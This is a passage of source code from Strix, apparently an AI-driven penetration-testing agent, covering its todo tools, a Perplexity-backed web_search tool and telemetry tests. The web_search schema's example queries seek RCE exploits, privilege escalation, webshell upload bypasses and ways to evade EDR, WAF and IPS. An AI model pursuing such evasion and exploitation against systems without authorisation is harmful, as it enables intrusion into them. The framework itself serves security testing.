                updated.append(update["todo_id"])

        todos_list = _sorted_todos(agent_id)

        response: dict[str, Any] = {
            "success": len(errors) == 0,
            "updated": updated,
            "updated_count": len(updated),
            "todos": todos_list,
            "total_count": len(todos_list),
        }

        if errors:
            response["errors"] = errors

    except (ValueError, TypeError) as e:
        return {"success": False, "error": str(e)}
    else:
        return response


@register_tool(sandbox_execution=False)
def mark_todo_done(
    agent_state: Any,
    todo_id: str | None = None,
    todo_ids: Any | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_todos = _get_agent_todos(agent_id)

        ids_to_mark: list[str] = []
        if todo_ids is not None:
            ids_to_mark.extend(_normalize_todo_ids(todo_ids))
        if todo_id is not None:
            ids_to_mark.append(todo_id)

        if not ids_to_mark:
            return {"success": False, "error": "Provide todo_id or todo_ids to mark as done."}

        marked: list[str] = []
        errors: list[dict[str, Any]] = []
        timestamp = datetime.now(UTC).isoformat()

        for tid in ids_to_mark:
            if tid not in agent_todos:
                errors.append({"todo_id": tid, "error": f"Todo with ID '{tid}' not found"})
                continue

            todo = agent_todos[tid]
            todo["status"] = "done"
            todo["completed_at"] = timestamp
            todo["updated_at"] = timestamp
            marked.append(tid)

        todos_list = _sorted_todos(agent_id)

        response: dict[str, Any] = {
            "success": len(errors) == 0,
            "marked_done": marked,
            "marked_count": len(marked),
            "todos": todos_list,
            "total_count": len(todos_list),
        }

        if errors:
            response["errors"] = errors

    except (ValueError, TypeError) as e:
        return {"success": False, "error": str(e)}
    else:
        return response


@register_tool(sandbox_execution=False)
def mark_todo_pending(
    agent_state: Any,
    todo_id: str | None = None,
    todo_ids: Any | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_todos = _get_agent_todos(agent_id)

        ids_to_mark: list[str] = []
        if todo_ids is not None:
            ids_to_mark.extend(_normalize_todo_ids(todo_ids))
        if todo_id is not None:
            ids_to_mark.append(todo_id)

        if not ids_to_mark:
            return {"success": False, "error": "Provide todo_id or todo_ids to mark as pending."}

        marked: list[str] = []
        errors: list[dict[str, Any]] = []
        timestamp = datetime.now(UTC).isoformat()

        for tid in ids_to_mark:
            if tid not in agent_todos:
                errors.append({"todo_id": tid, "error": f"Todo with ID '{tid}' not found"})
                continue

            todo = agent_todos[tid]
            todo["status"] = "pending"
            todo["completed_at"] = None
            todo["updated_at"] = timestamp
            marked.append(tid)

        todos_list = _sorted_todos(agent_id)

        response: dict[str, Any] = {
            "success": len(errors) == 0,
            "marked_pending": marked,
            "marked_count": len(marked),
            "todos": todos_list,
            "total_count": len(todos_list),
        }

        if errors:
            response["errors"] = errors

    except (ValueError, TypeError) as e:
        return {"success": False, "error": str(e)}
    else:
        return response


@register_tool(sandbox_execution=False)
def delete_todo(
    agent_state: Any,
    todo_id: str | None = None,
    todo_ids: Any | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_todos = _get_agent_todos(agent_id)

        ids_to_delete: list[str] = []
        if todo_ids is not None:
            ids_to_delete.extend(_normalize_todo_ids(todo_ids))
        if todo_id is not None:
            ids_to_delete.append(todo_id)

        if not ids_to_delete:
            return {"success": False, "error": "Provide todo_id or todo_ids to delete."}

        deleted: list[str] = []
        errors: list[dict[str, Any]] = []

        for tid in ids_to_delete:
            if tid not in agent_todos:
                errors.append({"todo_id": tid, "error": f"Todo with ID '{tid}' not found"})
                continue

            del agent_todos[tid]
            deleted.append(tid)

        todos_list = _sorted_todos(agent_id)

        response: dict[str, Any] = {
            "success": len(errors) == 0,
            "deleted": deleted,
            "deleted_count": len(deleted),
            "todos": todos_list,
            "total_count": len(todos_list),
        }

        if errors:
            response["errors"] = errors

    except (ValueError, TypeError) as e:
        return {"success": False, "error": str(e)}
    else:
        return response
```

## File: `strix/tools/todo/todo_actions_schema.xml`
```xml
<tools>
  <important>
  The todo tool is available for organizing complex tasks when needed. Each subagent has their own
  separate todo list - your todos are private to you and do not interfere with other agents' todos.

  WHEN TO USE TODOS:
  - Planning complex multi-step operations
  - Tracking multiple parallel workstreams
  - When you need to remember tasks to return to later
  - Organizing large-scope assessments with many components

  WHEN NOT NEEDED:
  - Simple, straightforward tasks
  - Linear workflows where progress is obvious
  - Short tasks that can be completed quickly

  If you do use todos, batch operations together to minimize tool calls.
  </important>

  <tool name="create_todo">
    <description>Create a new todo item to track tasks, goals, and progress.</description>
    <details>Use this tool when you need to track multiple tasks or plan complex operations.
  Each subagent maintains their own independent todo list - your todos are yours alone.

  Useful for breaking down complex tasks into smaller, manageable items when the workflow
  is non-trivial or when you need to track progress across multiple components.</details>
    <parameters>
      <parameter name="title" type="string" required="false">
        <description>Short, actionable title for the todo (e.g., "Test login endpoint for SQL injection")</description>
      </parameter>
      <parameter name="todos" type="string" required="false">
        <description>Create multiple todos at once. Provide a JSON array of {"title": "...", "description": "...", "priority": "..."} objects or a newline-separated bullet list.</description>
      </parameter>
      <parameter name="description" type="string" required="false">
        <description>Detailed description or notes about the task</description>
      </parameter>
      <parameter name="priority" type="string" required="false">
        <description>Priority level: "low", "normal", "high", "critical" (default: "normal")</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - created: List of created todos with their IDs - todos: Full sorted todo list - success: Whether the operation succeeded</description>
    </returns>
    <examples>
  # Create a high priority todo
  <function=create_todo>
  <parameter=title>Test authentication bypass on /api/admin</parameter>
  <parameter=description>The admin endpoint seems to have weak authentication. Try JWT manipulation, session fixation, and privilege escalation.</parameter>
  <parameter=priority>high</parameter>
  </function>

  # Create a simple todo
  <function=create_todo>
  <parameter=title>Enumerate all API endpoints</parameter>
  </function>

  # Bulk create todos (JSON array)
  <function=create_todo>
  <parameter=todos>[{"title": "Map all admin routes", "priority": "high"}, {"title": "Check forgotten password flow"}]</parameter>
  </function>

  # Bulk create todos (bullet list)
  <function=create_todo>
  <parameter=todos>
  - Capture baseline traffic in proxy
  - Enumerate S3 buckets for leaked assets
  - Compare responses for timing differences
  </parameter>
  </function>
    </examples>
  </tool>

  <tool name="list_todos">
    <description>List all todos with optional filtering by status or priority.</description>
  <details>Use this when you need to check your current todos, get fresh IDs, or reprioritize.
  The list is sorted: done first, then in_progress, then pending. Within each status, sorted by priority (critical > high > normal > low).
  Each subagent has their own independent todo list.</details>
    <parameters>
      <parameter name="status" type="string" required="false">
        <description>Filter by status: "pending", "in_progress", "done"</description>
      </parameter>
      <parameter name="priority" type="string" required="false">
        <description>Filter by priority: "low", "normal", "high", "critical"</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - todos: List of todo items - total_count: Total number of todos - summary: Count by status (pending, in_progress, done)</description>
    </returns>
    <examples>
  # List all todos
  <function=list_todos>
  </function>

  # List only pending todos
  <function=list_todos>
  <parameter=status>pending</parameter>
  </function>

  # List high priority items
  <function=list_todos>
  <parameter=priority>high</parameter>
  </function>
    </examples>
  </tool>

  <tool name="update_todo">
  <description>Update one or multiple todo items. Prefer bulk updates in a single call when updating multiple items.</description>
    <parameters>
      <parameter name="todo_id" type="string" required="false">
        <description>ID of a single todo to update (for simple updates)</description>
      </parameter>
      <parameter name="updates" type="string" required="false">
        <description>Bulk update multiple todos at once. JSON array of objects with todo_id and fields to update: [{"todo_id": "abc", "status": "done"}, {"todo_id": "def", "priority": "high"}].</description>
      </parameter>
      <parameter name="title" type="string" required="false">
        <description>New title (used with todo_id)</description>
      </parameter>
      <parameter name="description" type="string" required="false">
        <description>New description (used with todo_id)</description>
      </parameter>
      <parameter name="priority" type="string" required="false">
        <description>New priority: "low", "normal", "high", "critical" (used with todo_id)</description>
      </parameter>
      <parameter name="status" type="string" required="false">
        <description>New status: "pending", "in_progress", "done" (used with todo_id)</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - updated: List of updated todo IDs - updated_count: Number updated - todos: Full sorted todo list - errors: Any failed updates</description>
    </returns>
    <examples>
  # Single update
  <function=update_todo>
  <parameter=todo_id>abc123</parameter>
  <parameter=status>in_progress</parameter>
  </function>

  # Bulk update - mark multiple todos with different statuses in ONE call
  <function=update_todo>
  <parameter=updates>[{"todo_id": "abc123", "status": "done"}, {"todo_id": "def456", "status": "in_progress"}, {"todo_id": "ghi789", "priority": "critical"}]</parameter>
  </function>
    </examples>
  </tool>

  <tool name="mark_todo_done">
  <description>Mark one or multiple todos as completed in a single call.</description>
  <details>Mark todos as done after completing them. Group multiple completions into one call using todo_ids when possible.</details>
    <parameters>
      <parameter name="todo_id" type="string" required="false">
        <description>ID of a single todo to mark as done</description>
      </parameter>
      <parameter name="todo_ids" type="string" required="false">
        <description>Mark multiple todos done at once. JSON array of IDs: ["abc123", "def456"] or comma-separated: "abc123, def456"</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - marked_done: List of IDs marked done - marked_count: Number marked - todos: Full sorted list - errors: Any failures</description>
    </returns>
    <examples>
  # Mark single todo done
  <function=mark_todo_done>
  <parameter=todo_id>abc123</parameter>
  </function>

  # Mark multiple todos done in ONE call
  <function=mark_todo_done>
  <parameter=todo_ids>["abc123", "def456", "ghi789"]</parameter>
  </function>
    </examples>
  </tool>

  <tool name="mark_todo_pending">
    <description>Mark one or multiple todos as pending (reopen completed tasks).</description>
    <details>Use this to reopen tasks that were marked done but need more work. Supports bulk operations.</details>
    <parameters>
      <parameter name="todo_id" type="string" required="false">
        <description>ID of a single todo to mark as pending</description>
      </parameter>
      <parameter name="todo_ids" type="string" required="false">
        <description>Mark multiple todos pending at once. JSON array of IDs: ["abc123", "def456"] or comma-separated: "abc123, def456"</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - marked_pending: List of IDs marked pending - marked_count: Number marked - todos: Full sorted list - errors: Any failures</description>
    </returns>
    <examples>
  # Mark single todo pending
  <function=mark_todo_pending>
  <parameter=todo_id>abc123</parameter>
  </function>

  # Mark multiple todos pending in ONE call
  <function=mark_todo_pending>
  <parameter=todo_ids>["abc123", "def456"]</parameter>
  </function>
    </examples>
  </tool>

  <tool name="delete_todo">
    <description>Delete one or multiple todos in a single call.</description>
    <details>Use this to remove todos that are no longer relevant. Supports bulk deletion to save tool calls.</details>
    <parameters>
      <parameter name="todo_id" type="string" required="false">
        <description>ID of a single todo to delete</description>
      </parameter>
      <parameter name="todo_ids" type="string" required="false">
        <description>Delete multiple todos at once. JSON array of IDs: ["abc123", "def456"] or comma-separated: "abc123, def456"</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - deleted: List of deleted IDs - deleted_count: Number deleted - todos: Remaining todos - errors: Any failures</description>
    </returns>
    <examples>
  # Delete single todo
  <function=delete_todo>
  <parameter=todo_id>abc123</parameter>
  </function>

  # Delete multiple todos in ONE call
  <function=delete_todo>
  <parameter=todo_ids>["abc123", "def456", "ghi789"]</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/todo/__init__.py`
```python
from .todo_actions import (
    create_todo,
    delete_todo,
    list_todos,
    mark_todo_done,
    mark_todo_pending,
    update_todo,
)


__all__ = [
    "create_todo",
    "delete_todo",
    "list_todos",
    "mark_todo_done",
    "mark_todo_pending",
    "update_todo",
]
```

## File: `strix/tools/web_search/web_search_actions.py`
```python
import os
from typing import Any

import requests

from strix.tools.registry import register_tool


SYSTEM_PROMPT = """You are assisting a cybersecurity agent specialized in vulnerability scanning
and security assessment running on Kali Linux. When responding to search queries:

1. Prioritize cybersecurity-relevant information including:
   - Vulnerability details (CVEs, CVSS scores, impact)
   - Security tools, techniques, and methodologies
   - Exploit information and proof-of-concepts
   - Security best practices and mitigations
   - Penetration testing approaches
   - Web application security findings

2. Provide technical depth appropriate for security professionals
3. Include specific versions, configurations, and technical details when available
4. Focus on actionable intelligence for security assessment
5. Cite reliable security sources (NIST, OWASP, CVE databases, security vendors)
6. When providing commands or installation instructions, prioritize Kali Linux compatibility
   and use apt package manager or tools pre-installed in Kali
7. Be detailed and specific - avoid general answers. Always include concrete code examples,
   command-line instructions, configuration snippets, or practical implementation steps
   when applicable

Structure your response to be comprehensive yet concise, emphasizing the most critical
security implications and details."""


@register_tool(sandbox_execution=False)
def web_search(query: str) -> dict[str, Any]:
    try:
        api_key = os.getenv("PERPLEXITY_API_KEY")
        if not api_key:
            return {
                "success": False,
                "message": "PERPLEXITY_API_KEY environment variable not set",
                "results": [],
            }

        url = "https://api.perplexity.ai/chat/completions"
        headers = {"Authorization": f"Bearer {api_key}", "Content-Type": "application/json"}

        payload = {
            "model": "sonar-reasoning-pro",
            "messages": [
                {"role": "system", "content": SYSTEM_PROMPT},
                {"role": "user", "content": query},
            ],
        }

        response = requests.post(url, headers=headers, json=payload, timeout=300)
        response.raise_for_status()

        response_data = response.json()
        content = response_data["choices"][0]["message"]["content"]

    except requests.exceptions.Timeout:
        return {"success": False, "message": "Request timed out", "results": []}
    except requests.exceptions.RequestException as e:
        return {"success": False, "message": f"API request failed: {e!s}", "results": []}
    except KeyError as e:
        return {
            "success": False,
            "message": f"Unexpected API response format: missing {e!s}",
            "results": [],
        }
    except Exception as e:  # noqa: BLE001
        return {"success": False, "message": f"Web search failed: {e!s}", "results": []}
    else:
        return {
            "success": True,
            "query": query,
            "content": content,
            "message": "Web search completed successfully",
        }
```

## File: `strix/tools/web_search/web_search_actions_schema.xml`
```xml
<tools>
  <tool name="web_search">
    <description>Search the web using Perplexity AI for real-time information and current events.

This is your PRIMARY research tool - use it extensively and liberally for:
- Current vulnerabilities, CVEs, and security advisories
- Latest attack techniques, exploits, and proof-of-concepts
- Technology-specific security research and documentation
- Target reconnaissance and OSINT gathering
- Security tool documentation and usage guides
- Incident response and threat intelligence
- Compliance frameworks and security standards
- Bug bounty reports and security research findings
- Security conference talks and research papers

The tool provides intelligent, contextual responses with current information that may not be in your training data. Use it early and often during security assessments to gather the most up-to-date factual information.</description>
    <details>This tool leverages Perplexity AI's sonar-reasoning model to search the web and provide intelligent, contextual responses to queries. It's essential for effective cybersecurity work as it provides access to the latest vulnerabilities, attack vectors, security tools, and defensive techniques. The AI understands security context and can synthesize information from multiple sources.</details>
    <parameters>
      <parameter name="query" type="string" required="true">
        <description>The search query or question you want to research. Be specific and include relevant technical terms, version numbers, or context for better results. Make it as detailed as possible, with the context of the current security assessment.</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the search was successful - query: The original search query - content: AI-generated response with current information - message: Status message</description>
    </returns>
    <examples>
  # Found specific service version during reconnaissance
  <function=web_search>
  <parameter=query>I found OpenSSH 7.4 running on port 22. Are there any known exploits or privilege escalation techniques for this specific version?</parameter>
  </function>

  # Encountered WAF blocking attempts
  <function=web_search>
  <parameter=query>Cloudflare is blocking my SQLmap attempts on this login form. What are the latest bypass techniques for Cloudflare WAF in 2024?</parameter>
  </function>

  # Need to exploit discovered CMS
  <function=web_search>
  <parameter=query>Target is running WordPress 5.8.3 with WooCommerce 6.1.1. What are the current RCE exploits for this combination?</parameter>
  </function>

  # Stuck on privilege escalation
  <function=web_search>
  <parameter=query>I have low-privilege shell on Ubuntu 20.04 with kernel 5.4.0-74-generic. What local privilege escalation exploits work for this exact kernel version?</parameter>
  </function>

  # Need lateral movement in Active Directory
  <function=web_search>
  <parameter=query>I compromised a domain user account in Windows Server 2019 AD environment. What are the best techniques to escalate to Domain Admin without triggering EDR?</parameter>
  </function>

  # Encountered specific error during exploitation
  <function=web_search>
  <parameter=query>Getting "Access denied" when trying to upload webshell to IIS 10.0. What are alternative file upload bypass techniques for Windows IIS?</parameter>
  </function>

  # Need to bypass endpoint protection
  <function=web_search>
  <parameter=query>Target has CrowdStrike Falcon running. What are the latest techniques to bypass this EDR for payload execution and persistence?</parameter>
  </function>

  # Research target's infrastructure for attack surface
  <function=web_search>
  <parameter=query>I found target company "AcmeCorp" uses Office 365 and Azure. What are the common misconfigurations and attack vectors for this cloud setup?</parameter>
  </function>

  # Found interesting subdomain during recon
  <function=web_search>
  <parameter=query>Discovered staging.target.com running Jenkins 2.401.3. What are the current authentication bypass and RCE exploits for this Jenkins version?</parameter>
  </function>

  # Need alternative tools when primary fails
  <function=web_search>
  <parameter=query>Nmap is being detected and blocked by the target's IPS. What are stealthy alternatives for port scanning that evade modern intrusion prevention systems?</parameter>
  </function>

  # Finding best security tools for specific tasks
  <function=web_search>
  <parameter=query>What is the best Python pip package in 2025 for JWT security testing and manipulation, including cracking weak secrets and algorithm confusion attacks?</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/web_search/__init__.py`
```python
from .web_search_actions import web_search


__all__ = ["web_search"]
```

## File: `strix/utils/resource_paths.py`
```python
import sys
from pathlib import Path


def get_strix_resource_path(*parts: str) -> Path:
    frozen_base = getattr(sys, "_MEIPASS", None)
    if frozen_base:
        base = Path(frozen_base) / "strix"
        if base.exists():
            return base.joinpath(*parts)

    base = Path(__file__).resolve().parent.parent
    return base.joinpath(*parts)
```

## File: `tests/conftest.py`
```python
"""Pytest configuration and shared fixtures for Strix tests."""
```

## File: `tests/__init__.py`
```python
# Strix Test Suite
```

## File: `tests/agents/__init__.py`
```python
"""Tests for strix.agents module."""
```

## File: `tests/config/test_config_telemetry.py`
```python
import json

from strix.config.config import Config


def test_traceloop_vars_are_tracked() -> None:
    tracked = Config.tracked_vars()

    assert "STRIX_OTEL_TELEMETRY" in tracked
    assert "STRIX_POSTHOG_TELEMETRY" in tracked
    assert "TRACELOOP_BASE_URL" in tracked
    assert "TRACELOOP_API_KEY" in tracked
    assert "TRACELOOP_HEADERS" in tracked


def test_apply_saved_uses_saved_traceloop_vars(monkeypatch, tmp_path) -> None:
    config_path = tmp_path / "cli-config.json"
    config_path.write_text(
        json.dumps(
            {
                "env": {
                    "TRACELOOP_BASE_URL": "https://otel.example.com",
                    "TRACELOOP_API_KEY": "api-key",
                    "TRACELOOP_HEADERS": "x-test=value",
                }
            }
        ),
        encoding="utf-8",
    )

    monkeypatch.setattr(Config, "_config_file_override", config_path)
    monkeypatch.delenv("TRACELOOP_BASE_URL", raising=False)
    monkeypatch.delenv("TRACELOOP_API_KEY", raising=False)
    monkeypatch.delenv("TRACELOOP_HEADERS", raising=False)

    applied = Config.apply_saved()

    assert applied["TRACELOOP_BASE_URL"] == "https://otel.example.com"
    assert applied["TRACELOOP_API_KEY"] == "api-key"
    assert applied["TRACELOOP_HEADERS"] == "x-test=value"


def test_apply_saved_respects_existing_env_traceloop_vars(monkeypatch, tmp_path) -> None:
    config_path = tmp_path / "cli-config.json"
    config_path.write_text(
        json.dumps({"env": {"TRACELOOP_BASE_URL": "https://otel.example.com"}}),
        encoding="utf-8",
    )

    monkeypatch.setattr(Config, "_config_file_override", config_path)
    monkeypatch.setenv("TRACELOOP_BASE_URL", "https://env.example.com")

    applied = Config.apply_saved(force=False)

    assert "TRACELOOP_BASE_URL" not in applied
```

## File: `tests/config/__init__.py`
```python
"""Tests for strix.config module."""
```

## File: `tests/interface/__init__.py`
```python
"""Tests for strix.interface module."""
```

## File: `tests/llm/test_llm_otel.py`
```python
import litellm

from strix.llm.config import LLMConfig
from strix.llm.llm import LLM


def test_llm_does_not_modify_litellm_callbacks(monkeypatch) -> None:
    monkeypatch.setenv("STRIX_TELEMETRY", "1")
    monkeypatch.setenv("STRIX_OTEL_TELEMETRY", "1")
    monkeypatch.setattr(litellm, "callbacks", ["custom-callback"])

    llm = LLM(LLMConfig(model_name="openai/gpt-5"), agent_name=None)

    assert llm is not None
    assert litellm.callbacks == ["custom-callback"]
```

## File: `tests/llm/__init__.py`
```python
"""Tests for strix.llm module."""
```

## File: `tests/runtime/__init__.py`
```python
"""Tests for strix.runtime module."""
```

## File: `tests/telemetry/test_flags.py`
```python
from strix.telemetry.flags import is_otel_enabled, is_posthog_enabled


def test_flags_fallback_to_strix_telemetry(monkeypatch) -> None:
    monkeypatch.delenv("STRIX_OTEL_TELEMETRY", raising=False)
    monkeypatch.delenv("STRIX_POSTHOG_TELEMETRY", raising=False)
    monkeypatch.setenv("STRIX_TELEMETRY", "0")

    assert is_otel_enabled() is False
    assert is_posthog_enabled() is False


def test_otel_flag_overrides_global_telemetry(monkeypatch) -> None:
    monkeypatch.setenv("STRIX_TELEMETRY", "0")
    monkeypatch.setenv("STRIX_OTEL_TELEMETRY", "1")
    monkeypatch.delenv("STRIX_POSTHOG_TELEMETRY", raising=False)

    assert is_otel_enabled() is True
    assert is_posthog_enabled() is False


def test_posthog_flag_overrides_global_telemetry(monkeypatch) -> None:
    monkeypatch.setenv("STRIX_TELEMETRY", "0")
    monkeypatch.setenv("STRIX_POSTHOG_TELEMETRY", "1")
    monkeypatch.delenv("STRIX_OTEL_TELEMETRY", raising=False)

    assert is_otel_enabled() is False
    assert is_posthog_enabled() is True
```

## File: `tests/telemetry/test_tracer.py`
```python
import json
import sys
import types
from pathlib import Path
from typing import Any, ClassVar

import pytest
from opentelemetry.sdk.trace.export import SimpleSpanProcessor, SpanExportResult

from strix.telemetry import tracer as tracer_module
from strix.telemetry import utils as telemetry_utils
from strix.telemetry.tracer import Tracer, set_global_tracer


def _load_events(events_path: Path) -> list[dict[str, Any]]:
    lines = events_path.read_text(encoding="utf-8").splitlines()
    return [json.loads(line) for line in lines if line]


@pytest.fixture(autouse=True)
def _reset_tracer_globals(monkeypatch) -> None:
    monkeypatch.setattr(tracer_module, "_global_tracer", None)
    monkeypatch.setattr(tracer_module, "_OTEL_BOOTSTRAPPED", False)
    monkeypatch.setattr(tracer_module, "_OTEL_REMOTE_ENABLED", False)
    telemetry_utils.reset_events_write_locks()
    monkeypatch.delenv("STRIX_TELEMETRY", raising=False)
    monkeypatch.delenv("STRIX_OTEL_TELEMETRY", raising=False)
    monkeypatch.delenv("STRIX_POSTHOG_TELEMETRY", raising=False)
    monkeypatch.delenv("TRACELOOP_BASE_URL", raising=False)
    monkeypatch.delenv("TRACELOOP_API_KEY", raising=False)
    monkeypatch.delenv("TRACELOOP_HEADERS", raising=False)


def test_tracer_local_mode_writes_jsonl_with_correlation(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer("local-observability")
    set_global_tracer(tracer)
    tracer.set_scan_config({"targets": ["https://example.com"], "user_instructions": "focus auth"})
    tracer.log_agent_creation("agent-1", "Root Agent", "scan auth")
    tracer.log_chat_message("starting scan", "user", "agent-1")
    execution_id = tracer.log_tool_execution_start(
        "agent-1",
        "send_request",
        {"url": "https://example.com/login"},
    )
    tracer.update_tool_execution(execution_id, "completed", {"status_code": 200, "body": "ok"})

    events_path = tmp_path / "strix_runs" / "local-observability" / "events.jsonl"
    assert events_path.exists()

    events = _load_events(events_path)
    assert any(event["event_type"] == "tool.execution.updated" for event in events)
    assert not any(event["event_type"] == "traffic.intercepted" for event in events)

    for event in events:
        assert event["run_id"] == "local-observability"
        assert event["trace_id"]
        assert event["span_id"]


def test_tracer_redacts_sensitive_payloads(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer("redaction-run")
    set_global_tracer(tracer)
    execution_id = tracer.log_tool_execution_start(
        "agent-1",
        "send_request",
        {
            "url": "https://example.com",
            "api_key": "sk-secret-token-value",
            "authorization": "Bearer super-secret-token",
        },
    )
    tracer.update_tool_execution(
        execution_id,
        "error",
        {"error": "request failed with token sk-secret-token-value"},
    )

    events_path = tmp_path / "strix_runs" / "redaction-run" / "events.jsonl"
    events = _load_events(events_path)
    serialized = json.dumps(events)

    assert "sk-secret-token-value" not in serialized
    assert "super-secret-token" not in serialized
    assert "[REDACTED]" in serialized


def test_tracer_remote_mode_configures_traceloop_export(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    class FakeTraceloop:
        init_calls: ClassVar[list[dict[str, Any]]] = []

        @staticmethod
        def init(**kwargs: Any) -> None:
            FakeTraceloop.init_calls.append(kwargs)

        @staticmethod
        def set_association_properties(properties: dict[str, Any]) -> None:  # noqa: ARG004
            return None

    monkeypatch.setattr(tracer_module, "Traceloop", FakeTraceloop)
    monkeypatch.setenv("TRACELOOP_BASE_URL", "https://otel.example.com")
    monkeypatch.setenv("TRACELOOP_API_KEY", "test-api-key")
    monkeypatch.setenv("TRACELOOP_HEADERS", '{"x-custom":"header"}')

    tracer = Tracer("remote-observability")
    set_global_tracer(tracer)
    tracer.log_chat_message("hello", "user", "agent-1")

    assert tracer._remote_export_enabled is True
    assert FakeTraceloop.init_calls
    init_kwargs = FakeTraceloop.init_calls[-1]
    assert init_kwargs["api_endpoint"] == "https://otel.example.com"
    assert init_kwargs["api_key"] == "test-api-key"
    assert init_kwargs["headers"] == {"x-custom": "header"}
    assert isinstance(init_kwargs["processor"], SimpleSpanProcessor)
    assert "strix.run_id" not in init_kwargs["resource_attributes"]
    assert "strix.run_name" not in init_kwargs["resource_attributes"]

    events_path = tmp_path / "strix_runs" / "remote-observability" / "events.jsonl"
    events = _load_events(events_path)
    run_started = next(event for event in events if event["event_type"] == "run.started")
    assert run_started["payload"]["remote_export_enabled"] is True


def test_tracer_local_mode_avoids_traceloop_remote_endpoint(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    class FakeTraceloop:
        init_calls: ClassVar[list[dict[str, Any]]] = []

        @staticmethod
        def init(**kwargs: Any) -> None:
            FakeTraceloop.init_calls.append(kwargs)

        @staticmethod
        def set_association_properties(properties: dict[str, Any]) -> None:  # noqa: ARG004
            return None

    monkeypatch.setattr(tracer_module, "Traceloop", FakeTraceloop)

    tracer = Tracer("local-traceloop")
    set_global_tracer(tracer)
    tracer.log_chat_message("hello", "user", "agent-1")

    assert FakeTraceloop.init_calls
    init_kwargs = FakeTraceloop.init_calls[-1]
    assert "api_endpoint" not in init_kwargs
    assert "api_key" not in init_kwargs
    assert "headers" not in init_kwargs
    assert isinstance(init_kwargs["processor"], SimpleSpanProcessor)
    assert tracer._remote_export_enabled is False


def test_otlp_fallback_includes_auth_and_custom_headers(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)
    monkeypatch.setattr(tracer_module, "Traceloop", None)
    monkeypatch.setenv("TRACELOOP_BASE_URL", "https://otel.example.com")
    monkeypatch.setenv("TRACELOOP_API_KEY", "test-api-key")
    monkeypatch.setenv("TRACELOOP_HEADERS", '{"x-custom":"header"}')

    captured: dict[str, Any] = {}

    class FakeOTLPSpanExporter:
        def __init__(self, endpoint: str, headers: dict[str, str] | None = None, **kwargs: Any):
            captured["endpoint"] = endpoint
            captured["headers"] = headers or {}
            captured["kwargs"] = kwargs

        def export(self, spans: Any) -> SpanExportResult:  # noqa: ARG002
            return SpanExportResult.SUCCESS

        def shutdown(self) -> None:
            return None

        def force_flush(self, timeout_millis: int = 30_000) -> bool:  # noqa: ARG002
            return True

    fake_module = types.ModuleType("opentelemetry.exporter.otlp.proto.http.trace_exporter")
    fake_module.OTLPSpanExporter = FakeOTLPSpanExporter
    monkeypatch.setitem(
        sys.modules,
        "opentelemetry.exporter.otlp.proto.http.trace_exporter",
        fake_module,
    )

    tracer = Tracer("otlp-fallback")
    set_global_tracer(tracer)

    assert tracer._remote_export_enabled is True
    assert captured["endpoint"] == "https://otel.example.com/v1/traces"
    assert captured["headers"]["Authorization"] == "Bearer test-api-key"
    assert captured["headers"]["x-custom"] == "header"


def test_traceloop_init_failure_does_not_mark_bootstrapped_on_provider_failure(
    monkeypatch, tmp_path
) -> None:
    monkeypatch.chdir(tmp_path)

    class FakeTraceloop:
        @staticmethod
        def init(**kwargs: Any) -> None:  # noqa: ARG004
            raise RuntimeError("traceloop init failed")

        @staticmethod
        def set_association_properties(properties: dict[str, Any]) -> None:  # noqa: ARG004
            return None

    monkeypatch.setattr(tracer_module, "Traceloop", FakeTraceloop)

    def _raise_provider_error(provider: Any) -> None:
        raise RuntimeError("provider setup failed")

    monkeypatch.setattr(tracer_module.trace, "set_tracer_provider", _raise_provider_error)

    tracer = Tracer("bootstrap-failure")
    set_global_tracer(tracer)

    assert tracer_module._OTEL_BOOTSTRAPPED is False
    assert tracer._remote_export_enabled is False


def test_run_completed_event_emitted_once(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer("single-complete")
    set_global_tracer(tracer)
    tracer.save_run_data(mark_complete=True)
    tracer.save_run_data(mark_complete=True)

    events_path = tmp_path / "strix_runs" / "single-complete" / "events.jsonl"
    events = _load_events(events_path)
    run_completed = [event for event in events if event["event_type"] == "run.completed"]
    assert len(run_completed) == 1


def test_events_with_agent_id_include_agent_name(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer("agent-name-enrichment")
    set_global_tracer(tracer)
    tracer.log_agent_creation("agent-1", "Root Agent", "scan auth")
    tracer.log_chat_message("hello", "assistant", "agent-1")

    events_path = tmp_path / "strix_runs" / "agent-name-enrichment" / "events.jsonl"
    events = _load_events(events_path)
    chat_event = next(event for event in events if event["event_type"] == "chat.message")

    assert chat_event["actor"]["agent_id"] == "agent-1"
    assert chat_event["actor"]["agent_name"] == "Root Agent"


def test_run_metadata_is_only_on_run_lifecycle_events(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer("metadata-scope")
    set_global_tracer(tracer)
    tracer.log_chat_message("hello", "assistant", "agent-1")
    tracer.save_run_data(mark_complete=True)

    events_path = tmp_path / "strix_runs" / "metadata-scope" / "events.jsonl"
    events = _load_events(events_path)

    run_started = next(event for event in events if event["event_type"] == "run.started")
    run_completed = next(event for event in events if event["event_type"] == "run.completed")
    chat_event = next(event for event in events if event["event_type"] == "chat.message")

    assert "run_metadata" in run_started
    assert "run_metadata" in run_completed
    assert "run_metadata" not in chat_event


